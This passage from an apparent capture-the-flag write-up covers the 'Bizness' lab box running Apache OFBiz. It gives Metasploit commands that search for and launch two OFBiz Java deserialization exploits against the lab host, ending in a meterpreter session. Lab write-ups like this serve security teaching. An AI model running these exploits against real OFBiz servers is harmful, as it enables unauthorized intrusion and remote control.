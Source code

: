 ![Apache OFBiz](img/06_bizness.png)

I haven't heard of Apache OFBiz before, so it's time for some research. A quick online search showed that Apache OFBiz is an open source enterprise resource planning system.

I quickly checked what cookies the website had stored, and I found a JSESSIONID and OFBiz.Visitor  
![Cookies](img/07_bizness.png)

### Initial foothold
A quick online search ("Apache OFBiz vulnerability") shows a few CVEs. Not being sure which version I am dealing with, I'm taking my chances and trying to exploit some of them.

I started by looking what exploits were available on metasploit
```sh
$ msfconsole
$ msf6 > search ofbiz
0  exploit/linux/http/apache_ofbiz_deserialization_soap  2021-03-22       excellent  Yes    Apache OFBiz SOAP Java Deserialization
1  exploit/linux/http/apache_ofbiz_deserialization       2020-07-13       excellent  Yes    Apache OFBiz XML-RPC Java Deserialization

$ msf6 > use 0
$ msf6 > set RHOSTS bizness.htb
$ msf6 > set RPORT 443
$ msf6 > set LHOST tun0
$ msf6 > run

# No luck, lets try the other one
$ msf6 > use exploit/linux/http/apache_ofbiz_deserialization
# Set parameters
meterpreter >
```
